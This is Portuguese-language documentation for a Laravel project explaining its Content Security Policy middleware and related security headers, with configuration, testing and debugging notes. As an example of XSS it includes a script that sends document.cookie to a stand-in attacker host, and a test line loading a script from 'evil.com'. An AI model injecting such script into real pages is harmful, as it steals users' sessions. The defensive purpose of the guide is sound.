

# Content Security Policy (CSP) - Proteção Contra XSS

## O que é Content Security Policy?

Content Security Policy (CSP) é uma camada adicional de segurança que ajuda a detectar e mitigar certos tipos de ataques, incluindo Cross-Site Scripting (XSS) e ataques de injeção de dados. O CSP funciona definindo de quais fontes o navegador pode carregar recursos como scripts, estilos, imagens e outros conteúdos.

### Por que CSP é importante?

#### 1. **Proteção contra XSS (Cross-Site Scripting)**

XSS é um dos ataques mais comuns na web. Atacantes injetam código JavaScript malicioso em páginas web que depois é executado no navegador de outros usuários.

**Exemplo de ataque XSS:**

```html
<!-- Atacante injeta esse código em um comentário ou formulário -->
<script>
    // Roubar cookies de autenticação
    fetch("https://atacante.com/steal?cookie=" + document.cookie);
</script>
```

**Como CSP protege:**
Com CSP, você define explicitamente de onde scripts podem vir. Se um script malicioso for injetado, o navegador bloqueará sua execução.

```
Content-Security-Policy: script-src 'self'
```

☝️ Permite apenas scripts do próprio domínio, bloqueando qualquer script injetado.

#### 2. **Proteção contra Clickjacking**

Clickjacking é quando um atacante engana o usuário a clicar em algo diferente do que está vendo, geralmente incorporando seu site em um iframe invisível.

**Como CSP protege:**

```
Content-Security-Policy: frame-ancestors 'self'
```

☝️ Impede que seu site seja incorporado em iframes de outros domínios.

#### 3. **Proteção contra Data Injection**

Atacantes podem tentar manipular URLs e formulários para realizar ataques.

**Como CSP protege:**

```
Content-Security-Policy:
  base-uri 'self';
  form-action 'self'
```

☝️ Restringe onde formulários podem ser enviados e qual base URL pode ser usada.

---

## Implementação no labSIS-KIT

### Localização

O CSP está implementado no middleware `EnsureSecurityHeaders`:

📄 [`app/Http/Middleware/EnsureSecurityHeaders.php`](file:///home/iury/Projetos/labSIS-KIT/app/Http/Middleware/EnsureSecurityHeaders.php)

### Arquitetura da Implementação



### Exclusão de Painéis Administrativos

O CSP **não é aplicado** nos painéis `/admin` e `/user` porque o Filament gerencia suas próprias políticas de segurança. O CSP é aplicado apenas em:

-   ✅ **AuthPanel** (`/`, `/login`, `/register`)
-   ✅ **Rotas públicas** (home, landing page)

```php
// Verifica se a rota NÃO é admin ou user
if (! $request->is('admin*') && ! $request->is('user*')) {
    // Aplica CSP
}
```

### Políticas CSP Configuradas

#### 🔧 Ambiente de Desenvolvimento

Configurado para compatibilidade total com Vite (Hot Module Replacement):

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval' http://localhost:5173;
  style-src 'self' 'unsafe-inline' https://fonts.googleapis.com http://localhost:5173;
  img-src 'self' data: blob: {domínio-s3};
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' ws://localhost:5173 http://localhost:5173;
  media-src 'self' {domínio-s3};
```

**Recursos permitidos:**

-   ✅ Scripts do próprio site e Vite dev server
-   ✅ WebSocket para HMR (Hot Module Replacement)
-   ✅ Google Fonts
-   ✅ Imagens de S3/MinIO

#### 🚀 Ambiente de Produção

Mais restritivo, sem permissões de desenvolvimento:

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval';
  style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
  img-src 'self' data: blob: {domínio-s3} https://*.r2.cloudflarestorage.com;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self';
  media-src 'self' {domínio-s3} https://*.r2.cloudflarestorage.com;
  frame-ancestors 'self';
  base-uri 'self';
  form-action 'self';
```

**Recursos permitidos:**

-   ✅ Scripts e estilos do próprio site
-   ✅ Google Fonts
-   ✅ Imagens de S3/MinIO ou Cloudflare R2
-   ✅ Proteções adicionais contra clickjacking e manipulação de formulários

### Diretivas CSP Explicadas

| Diretiva          | Função                                                       | Exemplo                               |
| ----------------- | ------------------------------------------------------------ | ------------------------------------- |
| `default-src`     | Define fonte padrão para todos os recursos                   | `'self'` = apenas do próprio domínio  |
| `script-src`      | Define de onde scripts podem ser carregados                  | `'self' http://localhost:5173`        |
| `style-src`       | Define de onde estilos podem ser carregados                  | `'self' https://fonts.googleapis.com` |
| `img-src`         | Define de onde imagens podem ser carregadas                  | `'self' data: blob:`                  |
| `font-src`        | Define de onde fontes podem ser carregadas                   | `https://fonts.gstatic.com`           |
| `connect-src`     | Define para onde requisições AJAX/WebSocket podem ser feitas | `'self' ws://localhost:5173`          |
| `media-src`       | Define de onde áudio/vídeo podem ser carregados              | `'self'`                              |
| `frame-ancestors` | Define quem pode incorporar o site em iframe                 | `'self'` = só o próprio site          |
| `base-uri`        | Restringe URLs que podem ser usadas na tag `<base>`          | `'self'`                              |
| `form-action`     | Restringe para onde formulários podem enviar dados           | `'self'`                              |

### Valores Especiais

| Valor             | Significado                                            |
| ----------------- | ------------------------------------------------------ |
| `'self'`          | Mesmo domínio (protocolo, host e porta)                |
| `'unsafe-inline'` | Permite scripts/estilos inline (⚠️ menos seguro)       |
| `'unsafe-eval'`   | Permite `eval()` e funções similares (⚠️ menos seguro) |
| `data:`           | Permite URLs data: (ex: `data:image/png;base64,...`)   |
| `blob:`           | Permite URLs blob: (ex: arquivos criados em memória)   |
| `https:`          | Permite HTTPS de qualquer domínio                      |
| `*.dominio.com`   | Permite todos os subdomínios                           |

---

## Headers de Segurança Adicionais

Além do CSP, o middleware implementa outros headers importantes:

### X-Frame-Options

```
X-Frame-Options: SAMEORIGIN
```

**Proteção:** Impede que o site seja carregado em iframes de outros domínios (defesa contra clickjacking).

### X-Content-Type-Options

```
X-Content-Type-Options: nosniff
```

**Proteção:** Impede que o navegador "adivinhe" o tipo MIME de arquivos, forçando respeitar o header `Content-Type`.

### X-XSS-Protection

```
X-XSS-Protection: 1; mode=block
```

**Proteção:** Ativa proteção XSS do navegador (legacy, CSP é mais moderno).

### Referrer-Policy

```
Referrer-Policy: strict-origin-when-cross-origin
```

**Proteção:** Controla quais informações de referência são enviadas em requisições.

### Strict-Transport-Security (HSTS)

```
Strict-Transport-Security: max-age=31536000; includeSubDomains
```

**Proteção:** Força o navegador a sempre usar HTTPS (válido por 1 ano).

---

## Testando a Implementação

### 1. Verificar Headers HTTP

```bash
# Ver todos os headers de segurança
curl -I http://localhost

# Buscar especificamente CSP
curl -I http://localhost | grep Content-Security-Policy
```

### 2. Verificar no Navegador

1. Acesse a aplicação (ex: `http://localhost/login`)
2. Abra DevTools (F12)
3. Vá para **Network** > Clique na primeira requisição
4. Veja a aba **Headers** > **Response Headers**
5. Confirme a presença de `Content-Security-Policy`

### 3. Testar Violações CSP

Para testar se o CSP está funcionando, tente injetar um script malicioso:

```html
<!-- Isso deve ser BLOQUEADO pelo CSP -->
<script src="https://evil.com/malicious.js"></script>
```

O navegador bloqueará e mostrará um erro no console:

```
Refused to load the script 'https://evil.com/malicious.js' because it violates
the following Content Security Policy directive: "script-src 'self' ..."
```

---

## Configuração de Storage S3/MinIO

O CSP detecta automaticamente o domínio de storage configurado:

```php
$filesDomain = config('filesystems.disks.s3.endpoint',
                      config('filesystems.disks.s3.url'));
```

**Variáveis de ambiente necessárias:**

```env
# .env
AWS_ENDPOINT=http://minio:9000          # Local
AWS_URL=http://localhost:9000           # Dev

# OU em produção:
AWS_ENDPOINT=https://s3.us-east-1.amazonaws.com
AWS_URL=https://cdn.seudominio.com
```

---

## Nonce para Scripts Seguros

O middleware gera um **nonce** (número usado uma vez) para cada requisição:

```php
$nonce = base64_encode(random_bytes(16));
app()->instance('csp-nonce', $nonce);
```

**Como usar em views Blade:**

```blade
<script nonce="{{ app('csp-nonce') }}">
    // Código JavaScript inline seguro
    console.log('Este script é permitido pelo CSP');
</script>
```

> **Nota:** Atualmente o projeto usa `'unsafe-inline'`, o que permite scripts inline sem nonce. Para máxima segurança, considere remover `'unsafe-inline'` e usar nonces em todos os scripts.

---

## Melhorias Futuras

### 1. Remover `'unsafe-inline'`

**Atual:**

```
script-src 'self' 'unsafe-inline' 'unsafe-eval'
```

**Mais seguro:**

```
script-src 'self' 'nonce-{random}'
```

Exige adicionar nonces em todos os scripts inline.

### 2. Remover `'unsafe-eval'`

Evite uso de `eval()`, `new Function()`, etc. no código JavaScript.

### 3. Implementar Relatórios CSP

```
Content-Security-Policy-Report-Only: ... ; report-uri /csp-violation-report
```

Permite testar políticas sem bloquear recursos, apenas reportando violações.

### 4. Upgrade Insecure Requests

```
Content-Security-Policy: upgrade-insecure-requests
```

Força http:// a se tornar https:// automaticamente.

---

## Debugging de Problemas CSP

### Sintoma: Recursos bloqueados

**Console do navegador:**

```
Refused to load the image 'https://exemplo.com/imagem.jpg' because it violates
the following Content Security Policy directive: "img-src 'self'"
```

**Solução:**
Adicione o domínio na diretiva apropriada:

```php
"img-src 'self' https://exemplo.com"
```

### Sintoma: Vite HMR não funciona

**Problema:** WebSocket do Vite é bloqueado.

**Solução:** Certifique-se de estar em ambiente local e que `connect-src` inclui:

```php
"connect-src 'self' ws://localhost:5173 http://localhost:5173"
```

### Sintoma: Google Fonts não carregam

**Problema:** Fontes externas bloqueadas.

**Solução:**

```php
"font-src 'self' https://fonts.gstatic.com",
"style-src 'self' 'unsafe-inline' https://fonts.googleapis.com"
```

---

## Referências

-   [MDN - Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
-   [CSP Evaluator - Google](https://csp-evaluator.withgoogle.com/)
-   [OWASP - Content Security Policy](https://owasp.org/www-community/controls/Content_Security_Policy)
-   [Laravel Security Best Practices](https://laravel.com/docs/12.x/security)

---

## Conclusão

O CSP implementado no labSIS-KIT fornece múltiplas camadas de proteção:

✅ Bloqueia scripts maliciosos (XSS)  
✅ Previne clickjacking  
✅ Restringe fontes de recursos  
✅ Compatível com Vite em desenvolvimento  
✅ Não interfere com Filament Admin  
✅ Suporte a storage S3/MinIO/R2

Esta implementação equilibra **segurança robusta** com **experiência de desenvolvimento fluida**, mantendo o projeto protegido contra os ataques web mais comuns.
